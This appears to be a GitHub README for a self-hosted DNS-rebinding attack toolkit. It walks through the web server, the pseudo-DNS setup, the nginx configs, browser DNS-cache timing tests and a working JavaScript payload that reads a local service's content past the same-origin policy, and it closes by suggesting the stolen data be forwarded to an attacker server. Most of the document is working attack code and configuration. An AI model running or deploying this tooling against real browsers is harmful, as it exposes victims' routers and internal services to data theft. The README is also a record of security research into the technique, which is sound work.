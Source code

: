 Inspired by [@tavisio](https://bugs.chromium.org/p/project-zero/issues/detail?id=1471&desc=3)

This project is meant to be an All-in-one Toolkit to test further [DNS 
rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding) and my take on understanding these kind of attacks. 
It consists of a web server and pseudo DNS server that  only responds to A queries.

The root index of the web server allowes to configure and run the attack with a
rudimentary web gui. See [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one).

A basic nginx config to host the web server
```nginx
server {
  listen 80;
  server_name dnsrebindtool.43z.one;

  location / {
    proxy_pass http://localhost:5000;
  }
}
```

The /attack route of the web server reads the GET parameter `script`
that should provide basic64 encoded javascript and responds with the decoded code
(wraped around a setTimeout) embeded in a regular HTML page.

```bash
% curl "http://dnsrebindtool.43z.one/attack?script=YWxlcnQoMSk=" 
<html>
    <script>

    setTimeout(function(){
      alert(1) 
    }, 3000)

  </script>
</html
```

Within my registrar for the domain 43z.one I setup a NS record for the subdomain
`rebind` to point to the IP where this tool is hosted.
```
ns       A   81.4.124.10
rebind   NS  ns.43z.one
```

The DNS server responds only to A queries in this format

`evcmxfm4g . 81-4-124-10 . 127-0-0-1 .rebind.43z.one`

The first part (subdomain) is just some random id and should be generated for
every attack session (the web gui does this on every reload). Second comes the 
IP the DNS server should respond for the next 2 seconds and third the IP the 
server should respond after that time is passed.

```
$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one 
Fri Feb  2 21:18:20 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 81.4.124.10

$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Fri Feb  2 21:18:23 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 127.0.0.1
```
The last missing peace is a nginx config for the rebind domains.
Only the /attack route should be passed to the tool others should respond
with an error. This allows to attack other services on port 80 with all routes but
/attack. (like /api/monitoring/stats a endpoint my router exposes)

```
server {
  listen 80;
  server_name *.rebind.43z.one;

  location / {
    return 404;
  }

  location /attack {
    proxy_pass http://localhost:5000/attack;
  }
}
```

DNS Cache Eviction
```javascript
var xhr = new XMLHttpRequest()
xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// first time the browser sees this domain it queries the dns server
// and gets 81.4.124.10

// sleep for more than 2 sec

xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// still uses 81.4.124.10 (AND NOT 127.0.0.1)
// NO dns query happened browser used cached IP
```

This is a problem for this kind of attack. In order to work the browser has to
reissue a new dns query to get the second IP. In theory if you just wait long enough
between the requests a new query should happen.
My tests show though there is a faster but more aggressive approach.
It could be very likely this is setup specific. Needs more testing
I used the following script to measure the optimum value for the WAIT variable.
Tested on Chromium 62.0.3202.89 running on Debian buster/sid.

```javascript
var WAIT = 200
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, WAIT)
```

| WAIT value in ms | requests chrome sends | Time until queries dns again |
| --- | --- | --- |
| 0  |700|60|
| 10 |700|60|
| 100|600|63|
| 120|500|63|
| 150|400|63|
| 180|400|75|
| 200|300|63|
| 220|300|69|
| 250|300|78|
| 280|300|87|
| 300|200|63|
| 320|200|67|
| 340|200|71|
| 360|200|75|
| 380|200|79|
| 400|200|83|
| 1000|100|103|

Putting it all together and test it.
```bash
echo -e "HTTP/1.1 200 OK\n\n TOPSECRET" | sudo nc -lvp 80 -q1 127.0.0.1
```

This netcat instance serves some content I would like to get access to.
I keep the default rebind domain  
`$RANDOM$.81-4-124-10.127-0-0-1.rebind.43z.one`
and default script 

```javascript
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, 200)

```
on [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one) and hit the Attack button.
Open the dev tools network tab to see what is happening in the background.
For me after about 60 seconds fills up with the string `TOPSECRET` and the time
it took. DNS rebinding circumvented [SOP](https://en.wikipedia.org/wiki/Same-origin_policy).
To get the breached data out of the iframe one could use [Window.PostMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) or include code that forwards the data
to another attacker server within the script itself.
